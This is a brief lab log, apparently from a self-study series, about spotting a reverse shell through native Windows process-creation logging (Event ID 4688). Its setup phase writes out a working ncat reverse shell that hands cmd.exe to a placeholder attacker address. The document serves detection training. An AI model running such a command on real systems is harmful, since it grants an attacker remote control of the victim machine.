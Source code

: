 
# 🔐 Day 2 of 30 — Reverse Shell Logging on Windows

# 📅 Date: April 14, 2025
# 📁 Project: Detecting Reverse Shells using Native Windows Logs

#  🧠 Objective:
Capture and observe the reverse shell activity using **native Windows event logging** (without Sysmon) and validate it with **Event ID 4688**.

---

# ⚙️ Tools Used:
- Windows 10 (Victim)
- Kali Linux (Attacker)
- `ncat` for reverse shell
- Windows Event Viewer
- Auditpol command-line tool

---

# 🪝 Phase 1: Reverse Shell Setup
- Started a listener on Kali:
  ```bash
  ncat -lvp 7777
  ```
- Sent reverse shell from Windows:
  ```powershell
  ncat <KALI_IP> 7777 -e cmd.exe
  ```
- Verified successful connection.

---

# 🔍 Phase 2: Log Analysis
- Enabled process creation logging:
  ```cmd
  auditpol /set /subcategory:"Process Creation" /success:enable
  ```
- Opened **Event Viewer → Windows Logs → Security**
- Found Event ID 4688 which logs the new process (`cmd.exe`) creation.


---

### 🚀 Phase 3: Documentation & Wrap-Up
- Documented the project
- Saved screenshot of logs
- Understood how blue teams detect reverse shells without Sysmon

---

### 🤔 Why This Matters:
This shows how defenders can **spot unauthorized shells** even with basic Windows logging — making it a foundational detection technique.

---

# 📌 Tags:
`#WindowsLogging` `#ReverseShell` `#EventID4688` `#DetectionEngineering` `#Cybersecurity` `#90DayCyber`
